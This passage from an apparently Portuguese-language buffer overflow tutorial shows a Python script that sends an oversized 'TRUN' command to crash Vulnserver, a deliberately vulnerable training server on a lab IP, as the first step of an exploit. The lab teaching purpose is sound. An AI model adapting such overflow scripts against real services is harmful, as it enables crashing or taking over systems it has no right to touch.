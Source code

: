 ## EXPLORAÇÃO

Agora que sabemos que o programa sofreu um crash com 5061 bytes, já incluindo o comando “TRUN /.../”, podemos iniciar o esboço do exploit.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" + b"A" * offset

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```
Precisamos iniciar o vulsnerver, mas agora com o Immunity Debbuger.

![Immunity.](/img/std/winbof/winbof-5.png)
